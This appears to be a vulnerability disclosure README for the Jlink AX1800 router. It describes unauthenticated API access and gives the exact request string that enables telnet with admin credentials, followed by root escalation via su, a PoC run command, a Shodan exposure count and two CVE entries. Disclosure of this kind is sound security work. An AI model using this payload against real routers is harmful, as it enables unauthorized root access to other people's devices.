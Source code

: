 # Jlink AX1800

Jlink routers suffer from A01 Broken Access Control. Any remote user can access any of the routers API's without a password. A rouge threat actor can enable telnet and then escalate to root privileges by just entering the su command. 

**Telnet API:** 
```
"mode_name=/web/um_telnet_set&telnetEnable=1&userName=admin&userPwd=pawnp@nda69"
```

**Run POC:**
```
expect jlink
```


Shodan shows 902 devices available to RCE.  

* * *
CVE-2023-37058:
Insecure Permissions vulnerability in JLINK Unionman Technology Co. Ltd Jlink AX1800 v.1.0 allows a remote attacker to escalate privileges via a crafted command.

CVE-2023-37057:
An issue in JLINK Unionman Technology Co. Ltd Jlink AX1800 v.1.0 allows a remote attacker to execute arbitrary code via the router's authentication mechanism.



